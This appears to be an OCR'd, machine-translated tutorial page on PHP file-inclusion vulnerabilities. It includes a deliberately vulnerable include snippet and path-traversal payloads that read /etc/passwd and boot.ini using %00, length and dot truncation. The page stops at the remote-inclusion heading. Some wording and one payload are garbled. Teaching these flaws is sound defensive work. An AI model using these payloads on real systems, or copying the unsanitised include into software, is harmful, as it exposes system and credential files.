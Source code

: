```yaml
---
title: PHP
---
```


## File contains

Common functions that cause files to be included are:

- PHP：`include()`，`include_once()`，`require()`，`require_once()`，`fopen()`，`readfile()`
- JSP Servlet ： `ava.io.File ()` ， `java.io.FileReader ()`
- ASP：`includefile`，`includevirtual`

When PHP includes a file, it will be executed as PHP code, regardless of the type of file.

### A local file contains

The local file contains, Local File Inclusion, LFI.

```php
<?php
    $file = $_GET['file'];
    if (file_exists('/home/wwwrun/'.$file.'.php')) {
        include '/home/wwwrun/'.$file.'.php';
    }
?>
```

The above code has a local file containing, and the contents of the `/etc/passwd` file can be read by truncating %00.

- `%00` truncation

        ```text
        ?file=../../../../../../../../../etc/passwd%00
        ```

        Requires `magic_quotes_gpc=off`, PHP is less than 5.3.4.

- Path length truncation

        ```text
        ?file=../../../../../../../../../etc/passwd/././././././.[…]/./././././.
        ```
        
        Linux requires a file name longer than 4096 and Windows needs to be longer than 256.

- Point number truncation

        ```text
        ?file = ... / ... // ... // ... // ... / / boot.ini/ ……… [...] …………
        ```
        
        For Windows only, the dot number needs to be longer than 256.

### Remote file contains
